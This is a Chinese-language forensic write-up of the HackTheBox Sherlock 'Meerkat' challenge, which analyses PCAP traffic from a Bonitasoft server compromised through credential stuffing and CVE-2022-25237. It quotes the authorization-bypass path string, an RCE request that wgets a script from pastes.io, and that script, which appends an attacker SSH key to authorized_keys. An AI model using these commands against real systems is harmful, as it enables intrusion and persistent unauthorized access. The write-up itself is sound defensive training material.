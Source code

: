 # Meerkat

:::info Sherlock Scenario

As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

作为一个快速发展的初创企业，Forela 一直在利用一个商业管理平台。不幸的是，我们的文档资料有限，我们的管理员也不太重视安全。作为我们的新安全服务提供商，我们希望你能看一看我们导出的一些 PCAP 和日志数据，确认我们是否受到了（或者没有受到）侵害。

:::

## 题目数据

[题目附件 - meerkat.zip](./meerkat.zip)

## Task 1

> 我们相信我们的商业管理平台服务器已经遭到了入侵。请确认正在运行的应用程序名称。

在流量包中，使用以下语句进行筛选

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

在 url 部分，可以发现这份字符串

```plaintext
bonita
```

经过搜索，可以定位到这个 `bonitasoft` 这个平台

```plaintext title="Answer"
bonitasoft
```

## Task 2

> 我们相信攻击者可能使用了暴力破解攻击类别的子集 - 所进行的攻击名称是什么？

查看后续的一些 http 包，可以发现产生了大量失败的登录请求，可以怀疑攻击者正在尝试进行凭据爆破

```plaintext title="Answer"
Credential Stuffing
```

## Task 3

> 被利用的漏洞是否有 CVE 编号 - 如果有，是哪一个？

:::note

为了分析方便，这里将

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

筛选器得到的分组结果导出为新的 pcap 文件，再进行分析

可能会导致 tcp 流的编号与原始 pcap 包不一致

:::

根据后续的流量，可以发现攻击者登陆成功后 POST 形式发送了一个 zip 文件

![wireshark POST zip](img/image_20231205-160549.png)

并且后续进行了利用

![wireshark POST zip 漏洞利用](img/image_20231206-160635.png)

根据所得到的信息，可以定位到 `CVE-2022-25237` 这个漏洞编号

```plaintext title="Answer"
CVE-2022-25237
```

## Task 4

> 攻击者的利用是通过在 API URL 路径上附加了哪个字符串来绕过授权过滤器的？

将攻击者访问的 api url 请求进行提取

```plaintext
/bonita/API/portal/page/;i18ntranslation
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
/bonita/API/portal/page/133;i18ntranslation
```

可以分析出字符串为 `i18ntranslation`

```plaintext title="Answer"
i18ntranslation
```

## Task 5

> 在凭证填充攻击中使用了多少组用户名和密码的组合？

简单统计一下 http POST url=="/bonita/loginservice" status_code==204 的请求即可

```plaintext title="Answer"
56
```

## Task 6

> 哪个用户名和密码组合成功了？

查看凭据爆破的最后一次请求

```plaintext
POST /bonita/loginservice HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: x=x
Content-Length: 59

username=seb.broom@forela.co.uk&password=g0vernm3nt&_l=enHTTP/1.1 204
Set-Cookie: bonita.tenant=1; SameSite=Lax
Set-Cookie: JSESSIONID=772FE3C83B1A0815EC3AFA1C098B40E9; Path=/bonita; HttpOnly; SameSite=Lax
Set-Cookie: X-Bonita-API-Token=d350c469-2660-4504-9bea-4dbfa41ed9a4; Path=/bonita; SameSite=Lax
Set-Cookie: BOS_Locale=en; Path=/; SameSite=Lax
Date: Thu, 19 Jan 2023 15:39:17 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

即可得到

```plaintext
username: seb.broom@forela.co.uk
password: g0vernm3nt
```

```plaintext title="Answer"
seb.broom@forela.co.uk:g0vernm3nt
```

## Task 7

> 如果有的话，攻击者使用了哪个文本分享网站？

在流量中，发现这么一个会话

```plaintxt
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget https://pastes.io/raw/bx5gcr0et8 HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: JSESSIONID=745EE4F7243DA99264F07781FBB9B4E3; X-Bonita-API-Token=1ccb3fac-8abd-4cc0-a52e-bb5811198cdf; bonita.tenant=1; BOS_Locale=en

HTTP/1.1 200
Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate
Date: Thu, 19 Jan 2023 15:38:53 GMT
Accept-Ranges: bytes
Server: Restlet-Framework/2.3.12
Content-Type: application/json;charset=UTF-8
Content-Length: 544
Keep-Alive: timeout=20
Connection: keep-alive

{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

```plaintext title="Answer"
pastes.io
```

## Task 8

> 请提供攻击者用于在我们主机上获得持久性的公钥文件名。

对上文流量中使用的远程载荷 `https://pastes.io/raw/bx5gcr0et8` 下载下来进行分析

```shell title="https://pastes.io/raw/bx5gcr0et8"
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

```plaintext title="Answer"
hffgra4unv
```

## Task 9

> 您能确认攻击者修改的文件以获取持久性吗？

上文的载荷中就有

```plaintext title="Answer"
/home/ubuntu/.ssh/authorized_keys
```

## Task 10

> 您能确认这种持久性机制的 MITRE 技术 ID 吗？

Google Search: `MITRE technique authorized_keys`

```plaintext title="Answer"
T1098.004
```
